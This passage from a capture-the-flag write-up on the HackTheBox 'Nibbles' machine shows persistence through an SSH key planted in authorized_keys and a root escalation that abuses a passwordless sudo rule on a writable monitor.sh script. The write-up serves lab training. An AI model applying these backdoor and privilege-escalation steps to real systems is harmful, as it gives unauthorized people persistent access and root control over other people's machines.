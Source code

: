 ### Backdoor

From the `nmap` scan we got 2 ports open in that port 22 is `SSH`, so after getting into the shell looked for `.ssh` folder but in this machine its not there so created the folder and added the `authorized_keys` to connect from local through SSH.

```shell
┌[us-vip-1]─[10.10.16.3][0xM3M0RY㉿kali]─[~/htb/easy_nibbles]
└╼[★]$ ssh-keygen -f nibbler
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in nibbler
Your public key has been saved in nibbler.pub
The key fingerprint is:
SHA256:HF7VazfnslPgfEefrAukCh48rUuJRr03/iqsdQ52U5g 0xM3M0RY@kali
The key's randomart image is:
+---[RSA 3072]----+
|            ..   |
|           .  .  |
|        . .    . |
|    .  ooo    +.+|
|   . . ES. . +.==|
|  . o + . o   +o*|
|   o.% B . .  .=.|
|  . =o% +   ..o  |
|   ..+o=o.   ... |
+----[SHA256]-----+
```

## Shell as root

### Sudo exploitation

	Privesc : sudo exploitation and RationalLove exploitation  

```shell
nibbler@Nibbles:~$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

```shell
nibbler@Nibbles:~/personal/stuff$ cat monitor.sh
su
nibbler@Nibbles:~/personal/stuff$ sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# ls
root.txt
```
